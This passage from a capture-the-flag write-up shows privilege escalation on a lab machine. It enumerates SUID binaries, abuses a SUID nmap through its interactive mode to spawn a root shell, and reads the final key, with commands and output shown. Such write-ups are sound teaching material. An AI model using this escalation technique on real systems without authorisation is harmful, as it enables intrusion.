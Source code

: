 ![Happy](happy.gif){: width="800" height="150" .shadow }
## Third Key
Now, the final task is to find the `third key`
To access files in the `root directory`, we need to escalate our privileges. Our initial step is to list all the `SUID files` on the system and then check their potential exploits on `GTFOBins`
```console
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap                              <<<<<<<<<<<<<<<<<<
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Search `GTFObins` for nmap [here](https://gtfobins.github.io/gtfobins/nmap/)
```console
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```
Now that we have finally gained root access, we can read the third key
```console
cat /root/key-3-of-3.txt
04787d[REDACTED]dee161b21670b4e4
```

![Matrix](matrix.gif){: width="800" height="150" .shadow }



